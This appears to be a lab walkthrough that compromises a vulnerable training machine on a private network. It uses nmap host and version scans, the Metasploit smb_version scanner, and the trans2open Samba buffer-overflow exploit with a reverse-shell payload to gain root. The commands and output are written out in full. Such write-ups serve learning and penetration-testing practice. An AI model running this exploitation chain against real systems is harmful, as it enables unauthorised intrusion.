 ### Solved using Metasploit

Let Host discovery from Attack machine , run `ifconifg` and note our machine ip `192.168.69.5` , so network IP range will be `192.168.69.0` - `192.168.69.255` with subnet of `255:225:225:0`

`-sn` Ping Scan Disable port

```
nmap -sn 192.168.69.0/24
```

output

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-28 23:24 CDT
Nmap scan report for 192.168.69.1
Host is up (0.00022s latency).
Nmap scan report for 192.168.69.5
Host is up (0.00013s latency).
Nmap scan report for 192.168.69.6                <<<<<< vuln machine
Host is up (0.00046s latency).
Nmap done: 256 IP addresses (3 hosts up) scanned in 2.91 seconds
```

we got machine running on 192.168.69.6

<img src="../img/Pasted image 20240529095558.png" alt="Example Image" width="1080"/>

Version Scan

```
nmap -sV 192.168.69.6
```

```
-sV: Probe open ports to determine service/version info
             --version-intensity <level>: Set from 0 (light) to 9 (try all probes)
             --version-light: Limit to most likely probes (intensity 2)
             --version-all: Try every single probe (intensity 9)
             --version-trace: Show detailed version scan activity (for debugging)
```

output

```
└─$ nmap -sV 192.168.69.6
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-28 23:27 CDT
Nmap scan report for 192.168.69.6
Host is up (0.00042s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
111/tcp   open  rpcbind     2 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
32768/tcp open  status      1 (RPC #100024)
```

`-sV` enable OS detection and version detection , script scanning , traceroute

we know it running , Samba and its Server Message Block server ,then find version of that service , using Metasploit , search `smb_version` exploit in Metasploit , and got `auxiliary/scanner/smb/smb_version`

```
msfconsole
use auxiliary/scanner/smb/smb_version
show options
```

```
Name     Current Setting  Required  Description
----     ---------------  --------  -----------
RHOSTS                    yes       The target host(s)
```

set target machine ip for `rhosts`

```
msf6 auxiliary(scanner/smb/smb_version) > set rhosts 192.168.69.6
rhosts => 192.168.69.6
exploit
```

```
[*] 192.168.69.6:139      - SMB Detected (versions:) (preferred dialect:) (signatures:optional)
[*] 192.168.69.6:139      -   Host could not be identified: Unix (Samba 2.2.1a) <<<<<,
[*] 192.168.69.6:         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/

it looks like version Samba 2.2.1a is vulnerable to `exploit/linux/samba/trans2open`

Description of trans2open

```
This exploits the buffer overflow found in Samba versions
  2.2.0 to 2.2.8. This particular module is capable of
  exploiting the flaw on x86 Linux systems that do not
  have the noexec stack option set.
```

```
use  exploit/linux/samba/trans2open
set payload generic/shell_reverse_tcp    # Becuase no payload has been configed
set rhosts 192.168.69.6
run
```

Boom !!! we got root flag

<img src="../img/Pasted image 20240529101919.png" alt="Example Image" width="1080"/>

I Escalated Root Access !!
